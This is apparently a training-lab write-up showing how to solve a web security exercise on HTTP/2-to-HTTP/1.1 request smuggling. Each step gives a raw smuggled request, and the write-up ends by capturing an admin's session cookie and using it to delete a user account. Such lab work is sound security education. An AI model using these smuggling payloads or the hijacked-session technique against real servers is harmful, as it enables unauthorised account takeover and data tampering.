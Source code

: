 # Response queue poisoning via H2.TE request smuggling

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

## To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

## The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection

---

step 1

```
Transfer-Encoding: chunked
Content-Length: 11

0

userid=test

```

![screenshot](images/images_lab11/lab11_not_found_404.jpg)

step 2

```
Transfer-Encoding: chunked
Content-Length: 67

0

GET /post?postId=5 HTTP/1.1
Content-Length: 12

userid=test

```

![screenshot](images/images_lab11/lab11_post_id_5.jpg)

step 3

```
Transfer-Encoding: chunked
Content-Length: 59

0

GET /admin HTTP/1.1
Content-Length: 12

userid=test
```

HTTP/2 401 Unauthorized

![screenshot](images/images_lab11/lab11_http_2_http_1_1.jpg)

step 4

```
POST /x HTTP/2
Host: 0a17000003a74f25815f2af1001a00b0.web-security-academy.net
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0a17000003a74f25815f2af1001a00b0.web-security-academy.net
```

![screenshot](images/images_lab11/lab11_found_302.jpg)

note down details

```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=stQrgL4chP9frilHAvELZpfBT85oG1fW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length:
```

step 5
`session=stQrgL4chP9frilHAvELZpfBT85oG1fW`

![screenshot](images/images_lab11/lab11_admin_panel.jpg)

step 6

click on admin panel and delete carlos account

![screenshot](images/images_lab11/lab11_lab_solve_delete_carlos.jpg)
